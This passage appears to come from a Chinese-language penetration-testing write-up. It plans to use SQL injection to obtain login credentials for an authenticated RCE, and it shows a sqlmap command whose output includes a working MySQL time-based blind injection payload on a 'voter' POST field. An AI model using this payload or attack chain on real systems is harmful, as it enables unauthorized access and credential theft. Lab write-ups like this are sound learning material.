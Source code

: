 ![截图](67b2a85815087dd3c312dd9c6b2d2fd6.png)

有个未授权的RCE，试过不行。 还有个授权的RCE，但是我没没有登录凭据。 还有个sql注入，假如存在sql注入，那么我们就可以拿到用户凭据，尝试授权的RCE.

尝试sql注入

```
root@kali# sqlmap -r data --batch -p voter --level 5 --risk 3 
 ...
 ---
Parameter: voter (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: voter=admin' AND (SELECT 4771 FROM (SELECT(SLEEP(5)))YdaT) AND 'Vvvd'='Vvvd&password=123&login=asd
---
...
```

![截图](529a0a753e817dc2c72a81189c7db886.png)
